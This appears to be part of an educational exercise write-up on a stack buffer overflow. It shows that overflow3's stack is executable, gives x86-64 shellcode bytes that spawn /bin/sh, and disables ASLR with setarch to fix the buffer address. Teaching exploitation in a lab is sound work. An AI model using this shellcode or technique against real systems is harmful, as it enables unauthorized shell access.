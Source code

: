 
### Bonus Part 3: Executing Shellcode


The program is almost the same as before, but in contrast to `overflow2` there
is no `win` function we can call.
Luckily, the stack of `overflow3` is now executable, so we can inject our own
code into the buffer and execute it.:
```
$ readelf -l overflow2 | grep -A1 STACK
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
$ readelf -l overflow3 | grep -A1 STACK 
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RWE    0x10
                                                          ^
                                                          |
                                                          E stands for "executable"
```

The code we will inject is commonly called "shellcode", since it is common to
spawn a new shell to be able to execute arbitrary commands.
One example of such a shellcode is given in the exercise.
If we assemble the code, we get the following byte sequence:
```python
shellcode = b'\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\x48\x31\xc0\x50\x48\x89\xe6\x48\x89\xe2\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05'
```

The program nicely prints us the address of the `name` buffer.
Since Address Space Layout Randomization (ASLR) randomizes the position of the
stack in memory, the address is different in each execution:
```
$ ./overflow3 
name is located at 0x7fff55c5d640
Please enter your name: Hello !
$ ./overflow3
name is located at 0x7ffdcfc67ea0
Please enter your name: Hello !
$ ./overflow3
name is located at 0x7ffcc2501fb0
Please enter your name: Hello !
```
For the purpose of this exercise, we disable ASLR, so that the address is
always the same:
```
$ setarch `uname -m` -R ./overflow3
name is located at 0x7fffffffd770
Please enter your name: Hello !
$ setarch `uname -m` -R ./overflow3
name is located at 0x7fffffffd770
Please enter your name: Hello !
$ setarch `uname -m` -R ./overflow3
name is located at 0x7fffffffd770
Please enter your name: Hello !
```
